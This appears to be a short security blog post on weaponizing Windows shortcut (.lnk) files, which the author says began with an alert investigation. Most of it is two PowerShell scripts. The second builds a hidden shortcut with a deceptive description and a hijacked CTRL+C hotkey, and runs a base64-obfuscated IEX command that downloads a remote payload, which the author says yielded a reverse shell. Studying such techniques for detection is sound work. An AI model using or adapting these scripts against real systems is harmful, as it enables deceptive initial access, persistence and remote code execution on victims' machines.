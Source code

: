```yaml
---
layout: post
title: Weaponizing Shortcut Modification
subtitle: Exploring T1547.009 
cover-img: /assets/img/honk.png
thumbnail-img: /assets/img/shortcut.png
share-img: /assets/img/shortcut.png
tags: [poc, shortcut]
---
```


The other day I was investigating an alert for what was suspected to be a malicious lnk file. I had not really seen many of these in the wild, so I decided to take a bit of extra time to see what an true positive might look like. I found some useful PoC resources to help me create my own attack.

The original Powershell script that I modified can be seen below. I pulled it directly from the link to [v3ded's](https://v3ded.github.io/) post included in the resources section.

~~~
$path                      = "$([Environment]::GetFolderPath('Desktop'))\FakeText.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)

$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"

$shortcut.TargetPath       = "cmd.exe"
$shortcut.Arguments        = "/c calc.exe"
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+C"
$shortcut.Description      = "Nope, not malicious"

$shortcut.WindowStyle      = 7
                           # 7 = Minimized window
                           # 3 = Maximized window
                           # 1 = Normal    window
$shortcut.Save()

(Get-Item $path).Attributes += 'Hidden' # Optional if we want to make the link invisible (prevent user clicks)
~~~

Branching from this, I decided to add an IEX statement to download a payload hosted on a remote server. I had it pull and execute shellcode to give me a reverse shell.

~~~
$path = "$([Environment]::GetFolderPath('Desktop'))\RealText.lnk"
$wshell = New-Object -ComObject Wscript.Shell
$shortcut = $wshell.CreateShortcut($path)
$cmd = [System.Text.Encoding]::ascii.GetString([System.Convert]::FromBase64String('SUVYICgobmV3LW9iamVjdCBuZXQud2ViY2xpZW50KS5kb3dubG9hZHN0cmluZygnaHR0cDovLzAuMC4wLjA6ODAwMC9maWxlLnR4dCcpKQ=='))
$shortcut.IconLocation = "C:\Windows\System32\shell32.dll,70"
$shortcut.TargetPath = "powershell.exe"
$shortcut.Arguments = " -c $cmd"
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey = "CTRL+C"
$shortcut.Description = "I'm a dolphin, not a virus"
$shortcut.WindowStyle      = 7
$shortcut.Save()
(Get-Item $path).Attributes += 'Hidden'
~~~


**Resources**

| Type | Link |
| :------ | :--- |
| PoC | [https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence) |
| PoC | [https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-ole-+-lnk](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-ole-+-lnk) |

